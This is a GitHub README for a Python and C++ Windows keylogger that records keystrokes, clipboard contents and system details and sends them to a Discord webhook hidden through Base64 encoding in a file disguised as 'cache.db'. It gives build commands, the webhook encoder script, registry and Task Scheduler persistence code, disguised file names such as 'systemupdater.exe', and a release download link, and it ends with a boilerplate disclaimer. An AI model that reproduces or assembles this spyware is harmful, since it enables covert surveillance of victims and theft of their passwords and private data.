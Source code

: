 # 🛡️ Keylogger – Installer-based Setup

A fully featured and installer-driven keylogger written in Python and C++.  
It captures keystrokes, clipboard changes, system information, and sends the data securely to a hidden Discord webhook.  
Includes a one-click installer, automatic webhook encoding, and stealth autostart via DLL and Task Scheduler.

---

## ✅ Features

- ⌨️ Logs all keystrokes with modifier support (e.g., `CTRL + C`)
- 📋 Detects clipboard changes and sends content in real time
- 💻 Collects system information (hostname, user, IPs, OS)
- 🔁 Sends data periodically via Discord webhook
- 🔒 Webhook hidden using Base64 encoding in a disguised config file
- 🧩 One-click setup via GUI installer
- 🎭 Stealth autostart using `update.dll` + Task Scheduler
- 🫥 Runs silently with no visible windows
- 🛠️ Compatible with both development and compiled environments

---

## 📦 Installer Structure (v1.0 Release)

| File / Folder                        | Description                                                                 |
| ----------------------------------- | --------------------------------------------------------------------------- |
| `installer.exe`                     | One-click installer GUI – encodes the webhook and sets up everything automatically            |
| `systemupdater.exe`                 | Keylogger binary (compiled from `systemupdater.py`)                         |
| `update.dll`                        | DLL that loads the keylogger at login using `rundll32.exe`                 |
| `cache.db`                          | Contains the encoded Discord webhook (Base64)                               |
| `README.txt`                        | Offline readme for users                                                    |
| `LICENSE.txt`                       | MIT License                                                                 |
| `Source_Code/installer.py`         | Python source for installer GUI                                             |
| `Source_Code/systemupdater.py`     | Main keylogger logic (keystrokes, clipboard, system info)                   |
| `Source_Code/Base64_webhook_encoder.py` | Optional CLI tool to encode webhook manually                         |
| `Source_Code/startloader.cpp`      | Source code for DLL that triggers the EXE                                   |
| `Source_Code/icon.ico`             | Optional icon used during EXE compilation                                               |

---

## ⚙️ Compilation Instructions

### 🧪 Keylogger Binary (systemupdater.exe)

```bash
pyinstaller --onefile --noconsole --icon="icon.ico" systemupdater.py
```

### 🧪 Installer Binary (installer.exe)

```bash
pyinstaller --onefile --console --icon="icon.ico" installer.py
```

### 🧪 DLL (update.dll)

```bash
g++ -shared -o update.dll startloader.cpp -Wl,--add-stdcall-alias
```

> The exported function **must** be named `MyFunction` for compatibility with `rundll32.exe`.

---

## 🔐 Webhook Handling

To hide the Discord webhook URL, it is encoded via Base64 and saved to `cache.db`.  
The installer does this automatically, or you can use the manual tool:

### Manual Encoder (Base64_webhook_encoder.py)

```python
import base64
import os
import sys
import msvcrt

webhook = input("Enter your Discord webhook URL: ").strip()
if not webhook.startswith("http"):
    print("❌ Invalid webhook URL!")
    print("Press any key to exit...")
    msvcrt.getch()
    sys.exit(1)

encoded = base64.b64encode(webhook.encode()).decode()
base_dir = os.path.dirname(sys.executable if getattr(sys, 'frozen', False) else __file__)
full_path = os.path.join(base_dir, "cache.db")

try:
    with open(full_path, "w", encoding="utf-8") as f:
        f.write(encoded)
    print(f"✅ Webhook saved to: {full_path}")
except Exception as e:
    print(f"❌ Failed to save: {e}")

print("Done. Press any key to close...")
msvcrt.getch()
```

---

## 🚀 Autostart via Registry Key

The DLL is silently triggered at each user logon.

### ▶ Add Startup Registry Key

```powershell
def setup_registry_autostart():
    dll_path = os.path.join(TARGET_DIR, DLL_NAME)
    rundll_command = f'rundll32.exe "{dll_path}",MyFunction'
    try:
        with winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE,
                            r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run",
                            0, winreg.KEY_SET_VALUE) as key:
            winreg.SetValueEx(key, REG_KEY_NAME, 0, winreg.REG_SZ, rundll_command)
```

### ❌ Remove Startup Registry Key

```powershell
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "SystemUpdater" -ErrorAction SilentlyContinue
```

---

## 🧠 How the Installer Works

1. **Run `installer.exe`**
   - Prompts for webhook
   - Encodes to `cache.db`

2. **Installs binaries** to:  
   `C:\ProgramData\Microsoft\CacheSync\`

3. **Registers Task Scheduler autostart**
   - Uses `rundll32.exe` to execute `update.dll` on logon

---

## 📥 Download

The latest compiled release (including EXE, DLL, full source code) is available here:  
🔗 [Latest Release →](https://github.com/mrpanda-bamboo/keylogger/releases/latest)

---

## 📜 License

This project is licensed under the **MIT License**.  
See the [LICENSE](./LICENSE) file for full terms.

---

## 🚨 Disclaimer

> This software is intended for **educational, research, and ethical testing purposes only**.  
> **Do not** use this tool on systems you do not own or have explicit permission to monitor.  
> Misuse of this software can violate privacy laws and may be considered illegal in many countries.  
> The author takes **no responsibility** for misuse or damage caused.

